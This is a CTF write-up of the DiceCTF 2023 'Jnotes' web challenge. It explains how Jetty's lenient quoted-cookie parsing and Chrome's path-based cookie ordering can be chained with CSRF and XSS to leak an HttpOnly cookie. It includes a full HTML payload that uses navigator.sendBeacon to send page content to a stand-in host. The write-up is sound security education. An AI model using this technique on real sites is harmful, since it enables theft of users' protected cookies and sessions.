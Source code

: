 ```yaml
---
title: Jnotes - DiceCTF 2023
date: 2023-02-08T00:00:00+05:30
tags: [web, java, xss, httponly, dicectf23-writeups, writeup, ctf]
categories: [dicectf23-writeups,All Writeups]
authors: [Rohit]

twemoji: true
---
```


#### tl;dr

  - Java mishandles the cookies such that when there is a cookie with a `"`, it will take all the cookies until there is a `"` as that cookie's value
  - We can set empty cookies using javascript `document.cookie="=value"`;
  - Use that to set a new note cookie by adding `note` in the value `document.cookie='=note="';`
  - Make our cookie first by giving path as `//` as chrome sends cookies with longer paths first
  - Now create an iframe with `//` as src and read its innerHTML


<!--more-->

## Description

I made this note site before I learned about XSS... can you break it?

Thankfully my cookies are HttpOnly

- **Author** : arxenix
- **Category** : Web
- **Points** : 396
- **Solves** : 6


## Solution 

### Understanding the challenge

This was a java challenge where we can create notes and that notes will stored in cookies. We have setnote and getnote functions which will set the note in cookie and take the note from cookie

```java
    public static String getNote(Context ctx) {
        var note = ctx.cookie("note");
        if (note == null) {
            setNote(ctx, DEFAULT_NOTE);
            return DEFAULT_NOTE;
        }
        return URLDecoder.decode(note, StandardCharsets.UTF_8);
    }

    public static void setNote(Context ctx, String note) {
        note = URLEncoder.encode(note, StandardCharsets.UTF_8);
        ctx.cookie(new Cookie("note", note, "/", -1, false, 0, true));
    }
```

We also have a `/create` endpoint where we can set a new note

```java
app.post("/create", ctx -> {
            var note = ctx.formParam("note");
            setNote(ctx, note);
            ctx.redirect("/");
        });
```

The note is displayed on the home page without any filters so it's just plain XSS. The admin will also visit any page so we can get csrf and set a new note and get XSS on the admin side too. Till now everything is alright. The catch is that both the cookies are [HttpOnly](https://owasp.org/www-community/HttpOnly)

- So we can't access the cookies using JS
- There is no page displaying the flag cookie
- There is just home page which displays note cookie

### Java Cookie Parsing

Java Parse cookies weirdly. Maybe many other web servers too. Here this challenge uses [javalin](https://javalin.io/) which uses [jetty](https://www.eclipse.org/jetty/)

So when a cookie starts with a double quotes `"` and doesn't close it, it will go on and will take the value of that cookie until there is a closing double quotes.

So if we have three cookies

```
note="a
FLAG=flag{}
a=b"
```
Java will take the value of cookie `note` as `a; FLAG=flag{}; a=b`. Now we can use this to get the flag value into the note cookie and displaying it on the page. But we need to get the cookies in this order.

### Browser Cookie Parsing

Now some interesting facts about cookies in browsers that we use to solve this challenge

- We can create empty cookies using `document.cookies="=value"`

![empty](images/empty.png)

Now the cookie header will be sent like:

![header](images/empty-cookie-header.png)

Now, even if we can't create a new `note` cookie as its [HttpOnly](https://owasp.org/www-community/HttpOnly), we can create an empty cookie with value `note="` to bypass this

![cookie](images/note-cookie.png)

![note](images/cookie-note.png)

Now the header will be sent like this

![note-cookie-header](images/note-cookie-header.png)

Here the our `note` cookie is sent last. We need it to be the first cookie. So chrome basically orders cookies based on these rules. 

- Cookies with longer path are listed before cookies with shorter path.
- Cookies which are edited least recently are listed before cookies which are edited most recently.

I colud get these rules from [RFC-6265](https://www.rfc-editor.org/rfc/rfc6265#section-5.4)

```
 2.  The user agent SHOULD sort the cookie-list in the following
       order:

       *  Cookies with longer paths are listed before cookies with
          shorter paths.

       *  Among cookies that have equal-length path fields, cookies with
          earlier creation-times are listed before cookies with later
          creation-times.

       NOTE: Not all user agents sort the cookie-list in this order, but
       this order reflects common practice when this document was
       written, and, historically, there have been servers that
       (erroneously) depended on this order.
 ```


Here the `FLAG` cookie will be the first cookie as it is the least editted cookie and it has the longest path `/`. Now to make our cookie first, we can change the path of our `note` cookie to be `//` and increase the path length.

```js
document.cookie='=note=";path=//';
```

![cookie-path](images/cookie-path.png)

Now the textarea will have the flag value

![textarea](images/textarea.png)

Now we can just open an `iframe` with url `https://jnotes.mc.ax//` and get its content. 

```js
document.cookie='=note=";path=//';
const frame = document.createElement('iframe');
frame.src = "https://jnotes.mc.ax//";
document.body.appendChild(frame);
frame.onload = () => {
    navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
}
```
We need to set this as admins `not` cookie. We can do that with [csrf](https://portswigger.net/web-security/csrf)

### Final Payload

```html
<html>
  <body>
    <form method="POST" action="https://jnotes.mc.ax/create">
      <input id="p" name="note" value="" >
    </form>
    <script>
      document.querySelector("#p").value = `</textarea>
      <\x73cript>
      document.cookie='=note=";path=//';
      const frame = document.createElement('iframe');
      frame.src = "https://jnotes.mc.ax//";
      document.body.appendChild(frame);
      frame.onload = () => {
        navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
        }
      </\x73cript>`;
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Flag**: `dice{c0ok1e_m0nSt3r_1s_jeal0us_of_y0ur_sk1lLs}`
